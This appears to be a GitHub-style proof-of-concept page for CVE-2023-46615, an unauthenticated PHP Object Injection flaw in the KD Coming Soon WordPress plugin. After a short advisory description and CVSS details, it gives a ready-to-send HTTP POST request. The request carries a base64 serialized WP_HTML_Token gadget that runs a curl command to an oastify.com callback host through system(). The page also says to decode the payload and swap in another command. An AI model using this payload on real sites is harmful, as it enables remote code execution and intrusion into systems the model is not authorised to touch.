 # CVE-2023-46615
KD Coming Soon &lt;= 1.7 - Unauthenticated PHP Object Injection via cetitle

### Description:
The KD Coming Soon plugin for WordPress is vulnerable to PHP Object Injection in all versions up to, and including, 1.7 via deserialization of untrusted input cetitle in the vulnerable kd_cemailer function. This makes it possible for unauthenticated attackers to inject a PHP Object. No POP chain is present in the vulnerable plugin. If a POP chain is present via an additional plugin or theme installed on the target system, it could allow the attacker to delete arbitrary files, retrieve sensitive data, or execute code.

```
Severity: high
CVE ID: CVE-2023-46615
CVSS Score: 8.1
CVSS Metrics: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H
Plugin Slug: kd-coming-soon
WPScan URL: https://www.wpscan.com/plugin/kd-coming-soon
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/0f831d48-733a-4e79-8559-92b03b8d0356
```

POC 
--- 
Only works for wordpress 6.4+

```
POST /wp-admin/admin-ajax.php?action=kd_cemailer&nonce=c0465c51ee HTTP/1.1
Host: wordpress.lan
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 231
Origin: http://wordpress.lan
Connection: close
Referer: http://wordpress.lan/

action=kd_cemailer&cetitle=TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OToiY3VybCB1NHpjNXI5N3B2ZnF1NHgwMXNlenRlbmprYXExZXUyai5vYXN0aWZ5LmNvbSI7czoxMDoib25fZGVzdHJveSI7czo2OiJzeXN0ZW0iO30%3d&email=test%40Test.com
```

urlcode and base64decode `TzoxMzoiV1BfSFRNTF9Ub2tlbiI6Mjp7czoxMzoiYm9va21hcmtfbmFtZSI7czo0OToiY3VybCB1NHpjNXI5N3B2ZnF1NHgwMXNlenRlbmprYXExZXUyai5vYXN0aWZ5LmNvbSI7czoxMDoib25fZGVzdHJveSI7czo2OiJzeXN0ZW0iO30%3d` and replace the curl command `O:13:"WP_HTML_Token":2:{s:13:"bookmark_name";s:49:"curl u4zc5r97pvfqu4x01seztenjkaq1eu2j.oastify.com";s:10:"on_destroy";s:6:"system";}`
